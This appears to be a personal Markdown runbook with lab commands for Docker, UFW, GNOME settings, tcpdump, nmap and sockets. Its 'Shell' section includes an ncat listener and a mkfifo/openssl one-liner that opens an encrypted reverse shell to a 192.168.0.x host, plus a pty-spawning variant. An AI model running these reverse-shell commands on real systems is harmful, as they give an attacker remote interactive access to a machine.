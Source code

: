 # Runbook

...

## Docker test environment

Start container:

```bash
docker run --name vmtest --rm -dit nicolaka/netshoot bash
docker cp bin/client vmtest:/client
docker exec -it vmtest bash
````

Check the host gateway from inside the container:

```bash
ip route | grep default
```

---

## Firewall (UFW)

Allow incoming connections to TCP port **8969**:

```bash
sudo ufw allow from 192.168.0.0/24 to any port 8969 proto tcp
```

---

## GNOME utils

Set wallpapers:

```bash
gsettings get org.gnome.desktop.interface color-scheme
gsettings get org.gnome.desktop.background picture-uri
#gsettings get org.gnome.desktop.background picture-uri-dark
gsettings set org.gnome.desktop.background picture-uri 'file://<image-path>'
#gsettings set org.gnome.desktop.background picture-uri-dark 'file://<image-path>'
```

Open terminal with msg:

```bash
gnome-terminal -- bash -c "echo 'Hello world'; exec bash"
```

## Shell

Upgrade shell:

```bash
ncat -lvnp 4242
#python shtty.py
```

SSL:

```bash
ncat --ssl -lvnp 4242 --ssl-cert cert.pem --ssl-key key.pem
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.x:4242 > /tmp/s; rm /tmp/s
#mkfifo /tmp/s; python -c 'import pty; pty.spawn("/bin/sh")' < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.x:4242 > /tmp/s; rm /tmp/s
```

## SSL

Generate SSL cert:

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

## tcpdump

```bash
sudo tcpdump -i any tcp port 4242 -n -vv
#sudo tcpdump -i any tcp port 4242 -n -X
sudo tcpdump -i any host 192.168.0.x and port 4242 -n -X -w conn4242.pcap
```

## nmap

```bash
nmap -p- -sV 192.168.0.x
sudo nmap -sS -p- 127.0.0.1
```

## etc

```bash
sudo ss -antup
sudo lsof -p <PID>
nc -vz <HOST> <PORT>
```



...


